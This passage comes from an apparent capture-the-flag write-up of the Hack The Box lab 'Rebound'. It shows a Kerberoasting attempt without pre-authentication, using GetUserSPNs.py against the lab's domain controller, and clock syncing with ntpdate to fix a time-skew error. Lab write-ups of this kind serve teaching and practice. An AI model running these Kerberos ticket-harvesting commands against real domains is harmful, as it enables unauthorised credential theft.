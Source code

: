 Unfortunately, I couldn't crack the hash. Since it's a CTF, I opted not to use an extensive wordlist, considering the possibility that the machine creator might have chosen a password from a well-known list if hash cracking was the intended path.

An interesting observation: none of the accounts had UF_DONT_REQUIRE_PREAUTH set. With this in mind, our next move involves attempting to obtain Service Tickets through AS-REQ requests, as detailed at [https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication)


```bash
GetUserSPNs.py -target-domain rebound.htb -usersfile users.txt -dc-ip 10.10.11.231 rebound.htb/guest -no-pass
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_time_error.bmp)


Encountering an error due to a time mismatch with the DC, I decided to sync my clock with the DC to resolve the issue. This ensures a smooth continuation of our exploration without the need for workarounds like faketime. 


```bash
timedatectl set-ntp 0

sudo ntpdate -qu rebound.htb

sudo ntpdate rebound.htb
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_kerberos_rep.bmp)
